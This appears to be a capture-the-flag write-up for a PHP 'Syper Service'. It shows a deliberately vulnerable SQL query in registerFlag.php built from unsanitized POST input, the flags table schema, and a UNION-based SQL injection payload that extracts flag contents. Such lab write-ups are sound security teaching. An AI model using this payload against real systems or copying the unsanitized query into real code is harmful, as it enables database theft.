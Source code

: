 # Syper Service

## Description

> Password-protected daily picture service for the web.

This services is provided by the team *SYPER* and is a website which provides
a random photo to every authenticated users.

The website is actually composed of 3 main pages. `index.php` which gives a
user to possibility to authenticate, `secret.php` which shows the daily
picture to authenticated users and `register.php` to register your account.

### Flag

Flag Description:

> Flags are identified by a random alphanumeric string of 20 chars.

Flags are treated in a different page which isn't really linked to the rest of
the pages. Everything is done on `registerFlag.php`.

A ``POST`` request on this page with parameters `flag_id`, `password` and
`flag_content` will register the flag if it doesn't exist.


## Vulnerabilities

If we look in `config.php` we find out the service is using 2 different
sqlite databases for flags and users:

```php
$db = new PDO('sqlite:../rw/db/messaging.sqlite3');
$flags_db = new PDO('sqlite:../rw/db/flags.sqlite3');
```

As `$flags_db` is only used in `registerFlag.php`, no need to take a look
somewhere else. In addition the SQL injection is very obvious:

```php
// Check if the flag_id is already register
$query = "SELECT * from flags where flag_id='".$_POST['flag_id']."';";
```

If a result is fetch from the database, a message is printed:

```php
if ($repeated){ echo '<h1>FAILED!</h1><BR><p> FLAG_ID: '.$row['flag_id'].' already registered<BR>';}
```

We can then take advantage of that, replacing `$row['flag_id']` with the
content of the flag instead.

## Proof of Concept

### Manual proof

We must first know the structure of the database to know in which column
the *flag* must be inserted: 

```
sqlite> .schema flags
CREATE TABLE flags (
                      id INTEGER PRIMARY KEY, 
                      flag_id TEXT,
                      flag_token TEXT,
                      flag_content TEXT, 
                      time TEXT);

```

One of the many possible SQL injection is then:

```sql
abc' AND 0 UNION SELECT 1,flag_content,3,4,5 WHERE flag_id='XXX' AND ''='
```

Here is the result with the flag in it:

![SQLi Result with flag][sqli]




[sqli]: assets/sqli_result.png
